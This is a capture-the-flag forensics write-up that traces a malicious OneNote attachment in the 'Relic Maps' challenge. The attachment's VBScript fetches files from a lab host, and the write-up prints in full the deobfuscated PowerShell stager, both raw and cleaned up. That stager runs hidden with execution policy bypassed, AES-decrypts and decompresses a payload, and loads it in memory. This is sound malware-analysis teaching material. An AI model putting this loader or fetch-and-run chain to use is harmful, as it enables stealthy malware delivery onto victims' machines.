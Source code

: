# Relic Maps (medium )
## Description
Pandora received an email with a link claiming to have information about the location of the relic and attached ancient city maps, but something seems off about it. Could it be rivals trying to send her off on a distraction? Or worse, could they be trying to hack her systems to get what she knows?Investigate the given attachment and figure out what's going on and get the flag. The link is to http://relicmaps.htb:/relicmaps.one. The document is still live (relicmaps.htb should resolve to your docker instance).

## Initial thoughts
Based on past forensic ctf's I was thinking this might have to deal with follina vulnerability (it did not) so I opened this in my linux VM. When I loaded /relicmaps.htb/relicmaps.one it prompted me to download the file. My first thought was to run file but all it got was `relicmaps.one: data`. I wasn't familiar with .one files but apparently thats a OneNote file. Anyway I tried the strings command and it looks like it contained other files.

## Stage 1
With the relicmaps.one I realized this file had other files embedded so I ran 
```
binawalk -D=".*"
```
and saw a few interesting files (html and images). I opened the html page, nothing but symbols loaded so I checked out the source code and there was some vbscript. 

Taking a closer look I realized it was running a powershell command to grab two more files.
```
http://relicmaps.htb/uploads/soft/topsecret-maps.one
```
and
```
http://relicmaps.htb/get/DdAbds/window.bat
```

## Stage 2
The topsecret-maps.one file was just like relicmaps.one however the files it attempted to reach no longer existed, soon enough I realized that was a dead end. So I pivotted to window.bat.

This file included a ton of obfuscated batch code, so when I don't know what going on I run it. I used run.any to run this code for me and in its analysis it captured the code that this was running. I also discovered a neat script https://github.com/DissectMalware/batch_deobfuscator that also returned the same result below.
```
"window.bat.exe"  -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\admin\AppData\Local\Temp\window.bat').Split([Environment]::NewLine);foreach ($YiLGW in $eIfqq) { if ($YiLGW.StartsWith(':: ')) {  $VuGcO = $YiLGW.Substring(3); break; }; };$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO);$BacUA = New-Object System.Security.Cryptography.AesManaged;$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==');$Nlgap = $BacUA.CreateDecryptor();$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);$Nlgap.Dispose();$BacUA.Dispose();$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);$bTMLk = New-Object System.IO.MemoryStream;$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);$NVPbn.CopyTo($bTMLk);$NVPbn.Dispose();$mNKMr.Dispose();$bTMLk.Dispose();$uZOcm = $bTMLk.ToArray();$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm);$PtfdQ = $gDBNO.EntryPoint;$PtfdQ.Invoke($null, (, [string[]] ('')))
```

## Stage 3
This command was more obfuscation but its a lot easier to work this. I first cleaned this up a little to look like below.
```
$command = [System.IO.File]::ReadAllText('C:\Users\admin\AppData\Local\Temp\window.bat').Split([Environment]::NewLine);
foreach ($i in $command) 
{
    if ($i.StartsWith(':: ')) 
    {
        $VuGcO = $i.Substring(3); 
        break; 
    }; 
};

$uZOcm = [System.Convert]::FromBase64String($VuGcO);
$cryptography = New-Object System.Security.Cryptography.AesManaged;
$cryptography.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$cryptography.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$cryptography.Key = [System.Convert]::FromBase64String('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');
$cryptography.IV = [System.Convert]::FromBase64String('2hn/J717js1MwdbbqMn7Lw==');

$Nlgap = $cryptography.CreateDecryptor();
$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);
$Nlgap.Dispose();
$cryptography.Dispose();
$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);
$bTMLk = New-Object System.IO.MemoryStream;
$UnencryptedData = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);
$UnencryptedData.CopyTo($bTMLk);
$UnencryptedData.Dispose();
$mNKMr.Dispose();
$bTMLk.Dispose();
$uZOcm = $bTMLk.ToArray();

$gDBNO = [System.Reflection.Assembly]::Load($uZOcm);
$malwareExe = $gDBNO.EntryPoint;
$malwareExe.Invoke($null  (  [string[]] ('')))
```
Essentially how this works is it will parse the windows.bat file and only grab the line following :: (meaning the rest is just nonsense). Then it will proceed to base64decode and perfrom and AES decryption. This data would then be used to build the malware and execute it. For the longest time I fell into a rabbit whole of trying to decode window.bat in different ways but I all I had to do is digest the code and realize it was encrypted.

Anyhow, as you can see I label the variable where the data gets decrypted (UnencryptedData). If we output its contents after its decrypted and before it gets disposed then we should be able to see some of the strings within the executable. In doing so I found the flag.

# Summary 
This challenge required some deobfuscation and used the relicmap page to download the content used to build the malware executable. I had to first find the payload within the initial OneNote file and download the other stager which was a batch file that was used to build the .exe. Instead of outright running the malware I had it print its binary and allowed me to see a few visible strings one of which was the flag.